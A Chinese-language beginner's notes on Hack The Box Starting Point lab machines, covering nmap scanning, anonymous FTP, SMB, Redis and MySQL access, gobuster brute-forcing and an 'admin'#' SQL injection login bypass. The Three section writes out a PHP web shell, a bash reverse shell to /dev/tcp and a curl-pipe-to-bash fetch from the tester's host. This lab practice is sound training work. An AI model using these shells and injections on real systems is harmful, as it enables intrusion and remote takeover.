

# 注册

百度

# 开始

我是零基础web手，sql注入都不会，记录一下学习 边上分边学 哪不会就学哪

## 连接vpn

先点击右上角的“connect to HTB”，选择Starting Point机器，选择openvpn的方式连接HTB。

选443端口，因为443端口连接稳定，并下载vpn配置文件


打开虚拟机kali linux，打开终端，使用openvpn连接目标机器，连接完成后请刷新HTB页面，如果页面会显示目标机器的ip，即代表此次连接成功（注意：使用openvpn连接目标时，要切换用户权限为root，在命令前加上sudo即可）。

### Meow

VPN 启动序列输出中“隧道接口”的缩写名称是什么？

在kali linux的终端里使用命令： ifconfig

	可以发现有一个网卡命为tun0（eth0表示虚拟机本地网卡，lo网卡是实现本机内部访问的，对应的IP 127.0.0.1是本机回送地址），这个tun网卡即为VPN隧道接口 从图上可以看到tun0网卡对应的ip地址 正是目标机器的ip，tun0中的0表示是第一块用于连接vpn隧道接口的网卡。

此处的答案为：tun


我们使用什么工具通过 ICMP 回显请求测试与目标的连接？

ICMP（Internet Control Message Protocol）Internet控制报文协议。它是TCP/IP协议簇的一个子协议，用于在IP主机、路由器之间传递控制消息。控制消息是指网络通不通、主机是否可达、路由是否可用等网络本身的消息。
此处的答案为：ping

用于在目标上查找开放端口的最常用工具的名称是什么?

nmap	


问题是：在扫描过程中，我们在端口 23/tcp 上识别出什么服务？
使用以下命令扫描目标ip端口开放情况：


获得的信息是23/tcp端口处于开放状态，对应的服务为telnet服务（tetnet是远程登陆服务的主要方式）。

#### nmap学习

https://crayon-xin.github.io/2018/08/12/nmap%E8%B6%85%E8%AF%A6%E7%BB%86%E4%BD%BF%E7%94%A8%E6%8C%87%E5%8D%97/

Nmap的基本使用

基本快速扫描

Nmap 默认发送一个arp的ping数据包，来探测目标主机在1-10000范围内所开放的端口。

```
nmap 172.20.10.2(这里扫描的是本机的IP）
```

##### 快速扫描多个目标

```
nmap <target ip1 address> <target ip2 address>
```

Nmap的探测结果以列表的形式展现，同时分为四个状态：open、closed、filtered（被过滤的）、unfiltered。
open：该端口开放；s
closed：该端口关闭的；
filtered：发出的探测数据包不能到达目标主机的目标端口；
unfiltered：该端口可以被访问，但具体不清楚是开放的还是关闭的。

##### Nmap的扫描参数

- -p：扫描指定的端口
- -A：使用进攻性扫描综合扫描，包括系统探测，版本探测，脚本探测
- -sV：指定让Nmap进行版本侦测
- -F:扫描100个最有可能开放的端口
- -v：显示冗余信息，扫描时显示细节  显示扫描过程
- -iL：从文件中导入目标主机或目标网段
- -sn：仅进行主机发现，不进行端口扫描
- – exclude：所接的主机或网站不进行扫描
- -sL：仅列举指定目标的IP，不进行主机发现
- –system-dns：指定使用系统的DNS服务器
- –excludefile：导入文件中的主机或网段不进行扫描
- -n/-R：-n表示不进行DNS解析；-R表示进行DNS解析
- -sU：使用UDP扫描的方式确定目标主机的UDP端口状态
- -Pn：将所有指定的主机视作已开启，跳过主机发现的过程
- -T4：指定扫描过程使用的时间
- -sP 进行ping扫描
- -sn：扫描做出响应的主机，不做进一步测试（如端口扫描或者操作系统探测）
- -sA：发送tcp的ack包进行探测，可以探测主机是否存活
- -p-是对全端口进行扫描

\#有6个级别，等级越高速度越快，也容易被检测和屏蔽，建议使用T4
一般扫描命令格式：nmap + 扫描参数 + 目标地址或网段

##### 扫描除过某一个ip外的所有子网主机

```
nmap 192.168.227.1/24 -exclude 192.168.227.1
```

显示扫描的所有主机的列表
nmap -sL 192.168.227.1/24

sP ping 扫描
nmap 可以利用类似window/linux 系统下的ping方式进行扫描

nmap -sP <target ip>
一般来说 我们会用这个命令去扫描内网的一个ip范围，用来做内网的主机发现。

nmap -sP 192.168.227.1-255

PING扫描不同于其它的扫描方式，因为它只用于找出主机是否是存在在网络中的.它不是用来发现是否开放端口的.PING扫描需要ROOT权限，如果用户没有ROOT权限,PING扫描将会使用connect()调用.

22.06.11.05(端口扫描技巧)

    实际场景
        在实际环境中，当系统管理员对设备进行管理时，或者渗透人员对设备进行检测时， 并不一定对所有的服务进行操作。极有可能是 对某个或某个范围内的服务进行检测 。
        如果对所有服务进行探测，那就就会出现耗时长、费力不讨好的情况。针对这样的情况，我们很有必要了解如何使用 Nmap 来更加灵活的进行服务探测， 避免 全端口探测 对服务器造成的压力。
    端口探测技巧
        对某个端口进行探测 nmap -p80 scanme.nmap.org
        对某几个端口进行探测 nmap -p80,135 scanme.nmap.org
        对某个范围端口进行探测 nmap -p1-100 scanme.nmap.org
        对所有端口进行探测 nmap - p- scanme.nmap.org
        指定协议探测端口 nmap -p T:25,U:53 scanme.nmap.org
        通过协议名来扫描端口 nmap -p smtp scanme.nmap.org
        通过名称范围扫描 nmap -p s* scanme.nmap.org
        扫描注册在nmap中的端口 nmap -p [1-65535] scanme.nmap.org
    总结
        1、理解为什么要灵活扫描端口的原因。
        2、掌握nmap端口探测的技巧


登录上去 telnet 10.129.53.2



登进去了 ls一下看看flag

### Fawn

“*默认情况下ftp服务器在FTP服务器开启21号端口监听等待客户发起控制连接。* 


这边利用nmap 指定参数-sV 即可扫描出FTP的运行版本  -sV 探测打开的端口以确定服务/版本信息


当您想在没有帐户的情况下登录FTP时，使用的用户名是什么?

**anonymous**

使用 FTP 传输文件时，用户需要通过向 FTP 服务器提供凭据来获得文件传输许可。当然某些公共 FTP  服务器可能不需要凭据即可访问其文件，但是无法保证数据传输的安全性，任何未加密公共网络上的数据发送都是非常危险的，所以为了保护传输数据的安全，由  FTP 衍生而出的就是下面的两种协议：FTPS 与 SFTP。
        如果想要了解FTPS和FTP和SFTP的区别，可以去看一篇文章《一文详解 FTP、FTPS 与 SFTP 的原理》
        重点，FTP有两种登录方式。
        ftp 有两种登录方式：匿名登录和授权登录。使用匿名登录时，用户名为：anonymous，密码为：任何合法email 地址；使用授权登录时，用户名为用户在远程系统中的用户帐号，密码为用户在远程系统中的用户密码。
参考文献：https://blog.csdn.net/Gao068465/article/details/120846856

利用ftp工具通过匿名用户anonymous 连接目标web服务器 进行文件传输

禁用FTP匿名登陆：
主配置文件 ：vi /etc/vsftpd/vsftpd.conf
anonymous_enable=NO  #禁止匿名登录


我们得到的FTP消息“登录成功”的响应代码是什么?  

230

用来下载我们在FTP服务器上找到的文件的命令是什么?

下载文件通常用get和mget这两条命令。

FTP的匿名登录一般有三种： 
 1、 用户名：anonymous  密码：Email或者为空 
 2、 用户名：FTP 密码：FTP或者为空 
 3、 用户名：USER 密码：pass

随便选一个登录 原理不着急

### Dancing

*SMB端口号是 TCP/445*


我们可以使用SMB工具来“列出”共享内容的“标志”或“开关”是什么?

-L

我们最终可以使用空密码访问的共享的名称是什么?

**WorkShares**


我们知道在这个ip下面有一个 工作目录的分享，所以我们直接用smbclient 去连接

smbclient //10.129.47.146/WorkShares

### Redeemer


#### redis

Redis是什么类型的数据库 内存数据库

哪个命令行工具被用来与Redis服务器交互？输入你要在终端输入的程序名称，不要有任何参数。

redis-cli

哪个标志用于Redis命令行工具，以指定主机名？-h

一旦连接到Redis服务器，哪条命令用于获取有关Redis服务器的信息和统计数据？ info


```
redis-cli -h 10s.129.197.189
info
```

在Redis中使用哪个命令来选择所需的数据库?  select

在索引为0的数据库中存在多少个键？

```
select 0
keys * 
get flag
```

#### 学一下sql数据库语法

### Appointment

最常见的SQL漏洞类型是什么?

sql注入  injection


个人验证信息（PII，personally identifiable information）是有关一个人的任何数据，这些数据能帮助识别这个人，如姓名、指纹或其他生物特征资料、[电子邮件地址](https://baike.baidu.com/item/电子邮件地址/2284738)、电话号码或社会安全号码。


Nmap报告在目标器80端口上运行的服务和版本是什么?

```
nmap -sV -P 80 10.129.71.97
```


web应用术语中文件夹叫什么？

> Web目录web directory是网站的在线列表或目录
>
> 


Gobuster是一种用于在web服务器上强制执行目录的工具。我们在Gobuster中使用什么开关来指定我们正在寻找目录，而不是子域?


在MySQL中，哪个字符可以用来注释掉一行的其余部分?


在用户名称输入 admin'# 就sql注入成功

### Sequel    


当使用MySQL命令行客户端时，我们需要使用什么开关来指定登录用户名?

-u

哪个用户名允许我们登录这个MariaDB实例而不提供密码?


们可以在查询中使用什么符号来指定我们想要显示表中的所有内容?
 由SQL语句基础可知-此处指的是通配符，答案为：*


在SQL中，我们需要用什么符号来结束每个查询?；


这个MySQL实例中有三个数据库在所有MySQL实例中都是通用的。这个主机所特有的第四个名字是什么?

```
mysql -u root -h 10.129.25.12
```

information_schema、mysql、performance_schema这三个库是MySQL的默认库，在目标机上我们还发现了一个名为htb的数据库，我们猜测目标机上的flag大概率在名为htb的数据库中，所以我们选择该库并查看该库中的所有tables（表）:


使用select语句查看config表中的内容-我们成功发现了flag及其对应值：


```
select * from config;
```

#### mysql语句需要学

mysql数据库服务

### Crocodile    

在扫描时,Nmap扫描开关使用默认脚本是什么?

-sC

使用FTP客户端连接到FTP服务器后，当提示匿名登录时，我们提供什么用户名?

我们先使用以下命令连接目标机的ftp服务：

```
ftp 10.129.162.197
```

接着输入：

```
anonymous //匿名登录
```


Gobuster可以使用什么开关来指定我们正在寻找特定的文件类型?

-x

我们可以使用目录蛮力识别哪个PHP文件，从而提供向web服务进行身份验证的机会?

login.php

```
gobuster dir -u http://10.129.162.197 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt  -x .php
```


在前文已经通过ftp下载了两个文件并查看了内容，发现疑似的用户名和密码；
同时我们还通过使用gobuster扫描了目标站点目录，发现了一个疑似登陆页面login.php；
结合以上信息，我们可以使用已获取的账号admin以及密码值 尝试通过login.php页面进行登录：


### Responder

URL参数的名称是什么,用于加载不同语言版本的网页?

# Preignition 

直接爆破

```
gobuster dir -w /usr/share/dirb/wordlists/common.txt -u 10.129.9.218

dir代表目录扫描
-w 代表词表
-u 代表网址
```

s

**在名为/admin.php**的目录中找到 Gobuster

# Mongod

https://www.rffuste.com/2022/10/10/htb-mongod/


# Three

```text
nmap --min-rate 10000 -p- 靶机ip
nmap -sV -sT -O -p22,80 靶机ip
```

3、hosts配置

```text
echo '靶机ip thetoppers.htb' >> /etc/hosts
```

4、子域名爆破

```text
gobuster vhost -w /usr/share/wordlists/subnames.txt -u http://thetoppers.htb
```

注意选择自己的爆破词典，这里可能爆破不出，直接给出是s3.thetoppers.htb

5、hosts再配置

```text
echo '靶机ip s3.thetoppers.htb' >> /etc/hosts
```

6、网页查看子域名

或者shell执行：

```text
curl s3.thetoppers.htb
```

7、awscli安装

通过爆破的子域名，我们知道是使用的Amazon的s3服务，需要安装命令行工具

```text
apt install -y awscli -y
```

8、awscli配置

```text
aws configure
```

9、列出所有s3的桶

```text
aws --endpoint=http://s3.thetoppers.htb s3 ls 
```

10、列出该s3下的目录及对象

```text
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
```

11、编写php 代码

```text
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

12、使用cp命令拷贝到s3的桶里

```text
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
```

13、查看上传结果

使用浏览器打开

```text
http://thetoppers.htb/shell.php?cmd=ls
```

14、配置反弹shell

先查询本机拨通的v-p/n的IP

```text
ifconfig tun0
```

15、编写shell脚本

```text
vim shell.sh
#!/bin/bash
bash-i >& /dev/tcp/10.10.16.60/1337 0>&1 #上一步查询的ip
```

16、配置nc监听

```text
nc -nvlp 1337
```

17、配置简易web

新开启shell终端，切换到shell.sh所在路径

```text
python3 -m http.server 8090
```

18、执行脚本

```text
http://thetoppers.htb/shell.php?cmd=curl%2010.10.16.60:8090/shell.sh%20|%20bash
```

19、拿到shell
